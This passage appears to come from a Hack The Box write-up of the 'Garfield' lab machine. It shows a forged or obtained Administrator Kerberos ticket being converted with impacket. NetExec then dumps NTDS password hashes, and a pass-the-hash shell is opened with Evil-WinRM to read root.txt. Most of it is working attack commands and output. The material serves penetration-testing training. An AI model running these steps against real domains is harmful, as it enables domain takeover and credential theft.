  Base64(key)              :  8dxiVC3GFBdo/TVYJKo3T+VXFEyDOeP8ic4kmgL/4xw=
  Password Hash            :  EE238F6DEBC752010428F20875B092D5
```

With a fully legitimate `krbtgt` ticket for `Administrator` in hand, the base64 ticket was decoded to a `.kirbi` file and converted to a `.ccache` file for use with `impacket`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Garfield/files]
└─$ cat administrator_ticket.kirbi.b64 
doIFvjCCBbqgAwIBBaEDAgEWooIE0TCCBM1hggTJMIIExaADAgEFoQ4bDEdBUkZJRUxELkhUQqIhMB+gAwIBAqEYMBYbBmtyYnRndBsMR0FSRklFTEQuSFRCo4IEiTCCBIWgAwIBEqEDAgECooIEdwSCBHNKKCAzfBAOM/oloFZcHC2aGYd27smC6yKWj6RJcmdIUC8CgJjjNKMh3REfJ1xVXAaugitNkO/ZZdg9Q5nguqrBZVVpqmoVI/hBskHyHGPrcb/9/7cVeVN/W2S2dJmWcO+ywdJaOhKW1pfAFqsj7Go6jpKPh6QubEvcE60ZwZBv+UMSDn0OrG+0/5i7MsI82fvTNSwta+DP7YAcoUkVQbgw+HHB/w+QlHzLATclBlmn7BtW3Vab4RVrsW+vn0Lg0PDc1xb8Q2u9ajlcWe71Cs8DcYL//3iDR8G9Rg7/DhcqLFazsU1CNZq96hIMBWhnd05t74uyU8kuwpxGMhbIkT/QKuEsUDAt49/lLRGT5M3lh5W142LP8zFoLZ1GoRe04l2Nfd8mq3H8U2wlyNgwgnBl7gXp9mn1nUR2z++HPGWf8AOwNBZZvWZZiRNLZnDVOmpQDTXsG5bzEj2/1SmvCWW+dKZ9T1xqcFbU8cK5AWxl5X8eBQpQ+ud8Bbxl7W3cxcvfodIgLgYg57gXBJNBrkGLUuS+XB7JghAxXlLe4DjSgYEXVLpGuROgtJxKVIYvOvq2VkH8pITCzoy+mAv0to/TCwICrdmmPd2j/c/6334awe2ZjeQ9fRvVDGewZEKFV0N19vtOtCmdGFABKqM7x0GNyto5pU8sqxDqbm3C2jrv/1jcx9+lAo7GWVK7OZZGTphTp/tfLWXnrTo6zxSu63P8WCdU0xt9pKe75yKUgP29VYoEvH+iQOR5WqrlCtxjRihDcZ+Z3DeDyy+tahep4LwBaKxRQL8+PBH1yZ7GJ34pSCf5R52LEh3MSeZpdnkNO/G8eDiYSfG/TES8x4RTHEUFb3X30Ik/x0ItiiJhpXcnPTkcZvo1GQ5U0x8J9fWzpYj8UJwfQqXYQ/1yNqXrNXqKyr8f12kx3qGPBg+fkQ/grPdFkvOs01TuL6vextYoB/y8fVuGjCwtm702kuISBy6PUzvQVDG7FEGY6gPGdWCkgLQmfPeSCQgVUYO1bDtlPfdVRcRpG4b/Rp0plpAaDICWI5wbTBY+zpuobeArYST0JSWKV5TBqZqlFR4OYyrq6W2BOoU9QWloZsXZ7N6IU2A9PzldFp1d1zjRm6FwDfyEfqkU5o0YjKCNXDga+Kvy5PQW9GFhQydU5+qziOxm8QChszN+qMK4G/+W7+8M5AUpSVMeRHxA5BbXhrwNiA9xjc+Bq4zi2cazhf8VuFvINfP4CzBw+2GUav7Y7id1dSQHSggyQcntHYTb+eSDw7MZ5d2ROCqtfhRL/dbUgLqF5xIl4UVjCwXbl520WIMVBrxcaP+s58W7JrZHWvjUMmNjA0p+CV34gc2XytaMOh7I1gV/xD3jf8+fZY5V3X3g4VKY/bzg6skA4H+QmpL+pzBX9yXPesHe4tWMa7EatNR1WzEuMyyuhKhsb+wdMMruQnfBEeOhZgMENS4d8Ndjrc6weTN6ha0nCsG0/7Rl1staUYxe/tfwUJDp5FpKNg+08OFbXB4TC6OB2DCB1aADAgEAooHNBIHKfYHHMIHEoIHBMIG+MIG7oCswKaADAgESoSIEIPHcYlQtxhQXaP01WCSqN0/lVxRMgznj/InOJJoC/+McoQ4bDEdBUkZJRUxELkhUQqIaMBigAwIBAaERMA8bDUFkbWluaXN0cmF0b3KjBwMFAAABAAClERgPMjAyNjA0MDUxNjQ0NDhaphEYDzIwMjYwNDA2MDI0MzE1WqgOGwxHQVJGSUVMRC5IVEKpITAfoAMCAQKhGDAWGwZrcmJ0Z3QbDEdBUkZJRUxELkhUQg==
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Garfield/files]
└─$ cat administrator_ticket.kirbi.b64 | base64 -d > administrator_ticket.kirbi
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Garfield/files]
└─$ impacket-ticketConverter administrator_ticket.kirbi administrator_ticket.ccache
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] converting kirbi to ccache...
[+] done
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Garfield/files]
└─$ export KRB5CCNAME=administrator_ticket.ccache
```

Using the ticket with `netexec` over `SMB` confirmed `Domain Admin` access and allowed dumping the full `NTDS` database.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Garfield/files]
└─$ netexec smb DC01.garfield.htb --use-kcache --ntds

SMB         DC01.garfield.htb 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:garfield.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         DC01.garfield.htb 445    DC01             [+] GARFIELD.HTB\Administrator from ccache (Pwn3d!)
SMB         DC01.garfield.htb 445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         DC01.garfield.htb 445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:ee238f6debc752010428f20875b092d5:::
SMB         DC01.garfield.htb 445    DC01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         DC01.garfield.htb 445    DC01             krbtgt:502:aad3b435b51404eeaad3b435b51404ee:077a59724e58efbf6608853652a66f80:::
SMB         DC01.garfield.htb 445    DC01             krbtgt_8245:1603:aad3b435b51404eeaad3b435b51404ee:445aa4221e751da37a10241d962780e2:::
SMB         DC01.garfield.htb 445    DC01             garfield.htb\j.arbuckle:3101:aad3b435b51404eeaad3b435b51404ee:f705091e5d14d5c25ace5f52ea4d8ecb:::
SMB         DC01.garfield.htb 445    DC01             garfield.htb\l.wilson:3105:aad3b435b51404eeaad3b435b51404ee:dc6e2c16d8baac7cc239f160783ae2b0:::
SMB         DC01.garfield.htb 445    DC01             garfield.htb\l.wilson_adm:3107:aad3b435b51404eeaad3b435b51404ee:8326fb5b3bfe55c6119a4657196aa645:::
SMB         DC01.garfield.htb 445    DC01             DC01$:1000:aad3b435b51404eeaad3b435b51404ee:22acecfd924465afc92bf3c3631bbc91:::
SMB         DC01.garfield.htb 445    DC01             RODC01$:1602:aad3b435b51404eeaad3b435b51404ee:0a3f810964bb5e1f0e52245f73700172:::
SMB         DC01.garfield.htb 445    DC01             FOOBAR$:10601:aad3b435b51404eeaad3b435b51404ee:c16909555f24a7787bf9fb53310fcb84:::
SMB         DC01.garfield.htb 445    DC01             [+] Dumped 10 NTDS hashes to /home/kali/.nxc/logs/ntds/DC01_DC01.garfield.htb_2026-04-05_184759.ntds of which 7 were added to the database
SMB         DC01.garfield.htb 445    DC01             [*] To extract only enabled accounts from the output file, run the following command: 
SMB         DC01.garfield.htb 445    DC01             [*] grep -iv disabled /home/kali/.nxc/logs/ntds/DC01_DC01.garfield.htb_2026-04-05_184759.ntds | cut -d ':' -f1
```

With the `Administrator` `NTLM` hash in hand, authentication to `DC01` was possible via `Pass-the-Hash` using `Evil-WinRM`.

```shell
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 10.129.22.194 -u Administrator -H 'ee238f6debc752010428f20875b092d5'
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

## root.txt

```cmd
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
be9cc897ab8bb460778f31b78afe90ea
```
